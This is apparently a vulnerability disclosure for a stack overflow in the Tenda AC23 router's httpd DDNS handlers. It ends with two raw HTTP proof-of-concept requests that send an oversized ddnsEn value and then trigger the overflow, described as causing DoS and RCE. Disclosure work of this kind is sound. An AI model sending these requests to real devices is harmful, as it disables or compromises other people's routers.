 # Tenda AC23 formGetSysToolDDNS stack-based overflow

## 1.Product 

![image-20220924150554791](https://github.com/jingping911/tendaAC23overflow/blob/main/1.jpg)

1. **product information: https://www.tenda.com.cn/** 
2. **firmware download:https://www.tenda.com.cn/download/detail-3420.html**

----

## 2.**Firmware**

**Hardware version:V1.0**

**Software version:V16.03.07.45**

## 3.vulnerability details

The vulnerability is in` /bin/httpd` , the function `formSetSysToolDDNS`, ` formGetSysToolDDNS` . The function `formSetSysToolDDNS` can set nvram val `adv.ddns1.en` to` v22` , **which can be set through POST parameter`ddnsEn`**

![image-20220924150554791](https://github.com/jingping911/tendaAC23overflow/blob/main/1.png)

and in function `formGetSysToolDDNS` , the function calls `GetValue(“adv.ddns1.en”, v11)` to set the string to` v11` which is on the stack. So there is a stack overflow vulnerability. By analyze the funtion GetValue and SetValue , the max size of the string we can get from the function GetValue is `0x5DC` . It’s bigger than the size of`v11 `

![image-20220924150554791](https://github.com/jingping911/tendaAC23overflow/blob/main/2.png)

so there is a buffer overflow vulnerability. 

## 4.poc
1. You need to login and **replace the Cookie: password filed in poc**.
2. By sending  poc1 and poc2 (remember to send poc2), it can cause dos and rce. 

```
POST /goform/SetDDNSCfg HTTP/1.1
Host: 192.168.0.1
Content-Length: 641
Accept: */*
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36
(KHTML, like Gecko) Chrome/105.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Origin: http://192.168.0.1
Referer: http://192.168.0.1/ddns_config.html?random=0.48392112228286877&
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Cookie: password=25d55ad283aa400af464c76d713c07adoikcvb
Connection: close
ddnsEn=111111111111111111111111111111111111111111111111111111111111111111111
1111111111111111111111111111111111111111111111111111111111111111111111111111
1111111111111111111111111111111111111111111111111111111111111111111111111111
1111111111111111111111111111111111111111111111111111111111111111111111111111
1111111111111111111111111111111111111111111111111111111111111111111111111111
1111111111111111111111111111111111111111111111111111111111111111111111111111
1111111111111111111111111111111111111111111111111111111111111111111111111111
11111111111111111111111111111111111111111111111111&serverName=noip.com&ddnsUser=a&ddnsPwd=a&ddnsDomain=b.top
```

```
GET /goform/GetDDNSCfg?0.45256296854497835 HTTP/1.1
Host: 192.168.0.1
Accept: application/json, text/javascript, */*; q=0.01
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36
(KHTML, like Gecko) Chrome/105.0.0.0 Safari/537.36
X-Requested-With: XMLHttpRequest
Referer: http://192.168.0.1/ddns_config.html?random=0.48392112228286877&
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Cookie: password=25d55ad283aa400af464c76d713c07adoikcvb
Connection: close
```



### 5.Author

*Wangjingping*
